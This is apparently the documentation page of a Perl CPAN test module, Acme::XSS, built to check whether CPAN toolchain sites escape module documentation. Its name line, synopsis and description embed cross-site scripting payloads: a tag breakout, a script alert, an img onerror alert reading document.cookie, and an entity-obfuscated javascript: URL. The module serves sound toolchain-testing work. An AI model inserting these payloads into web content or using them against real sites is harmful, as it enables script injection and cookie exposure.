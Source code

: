 # NAME

Acme::XSS - "><xmp>XSS Testing

# SYNOPSIS

    use Acme::XSS;
    <xmp>

# DESCRIPTION

This is a module to testing CPAN toolchain.

<div>
    <script>alert("all your codes are belongs to us");</script>
    <img onerror="javascript:alert(document.cookie);" src="/">
    <IMG SRC=&#x6A&#x61&#x76&#x61&#x73&#x63&#x72&#x69&#x70&#x74&#x3A&#x61&#x6C&#x65&#x72&#x74&#x28&#x27&#x58&#x53&#x53&#x27&#x29>
</div>

# AUTHOR

Tokuhiro Matsuno <tokuhirom AAJKLFJEF GMAIL COM>

# SEE ALSO

# LICENSE

Copyright (C) Tokuhiro Matsuno

This library is free software; you can redistribute it and/or modify
it under the same terms as Perl itself.
